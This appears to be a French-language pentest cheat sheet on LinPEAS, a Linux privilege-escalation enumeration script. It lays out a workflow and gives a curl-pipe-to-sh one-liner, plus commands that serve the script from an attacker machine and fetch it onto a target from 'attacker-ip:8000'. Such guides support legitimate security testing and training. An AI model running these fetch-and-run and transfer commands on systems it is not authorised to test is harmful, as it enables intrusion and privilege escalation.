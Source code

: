 # LinPEAS - Linux Privilege Escalation Awesome Script

## 🗂️ Workflow d'utilisation LinPEAS
1. Upload/exécution du script sur la cible Linux
   ↓
2. Analyse automatisée de l'énumération système
   ↓
3. Identification des vecteurs d'escalade potentiels
   ↓
4. Priorisation des vulnérabilités trouvées
   ↓
5. Exploitation manuelle des failles détectées
   ↓
6. Validation de l'escalade de privilèges

## 📋 Vue d'ensemble

LinPEAS est un script automatisé qui effectue une énumération complète d'un système Linux pour identifier les vecteurs d'escalade de privilèges. Il colore les résultats par niveau de priorité et fournit des suggestions d'exploitation.

> **💡 Explication Simple** : C'est comme un détective automatique qui fouille partout dans le système Linux pour trouver toutes les portes dérobées et failles de sécurité qui pourraient vous donner plus de privilèges.

## ⚡ Installation et Exécution

### Téléchargement et exécution directe
```bash
# Download et exécution en une ligne
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Via wget
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### Transfert sur cible
```bash
# Depuis machine d'attaque - serveur web
python3 -m http.server 8000

# Sur cible - téléchargement
wget http://attacker-ip:8000/linpeas.sh
curl -O http://attacker-ip:8000/linpeas.sh

# Exécution avec redirection
./linpeas.sh | tee linpeas_output.txt
```
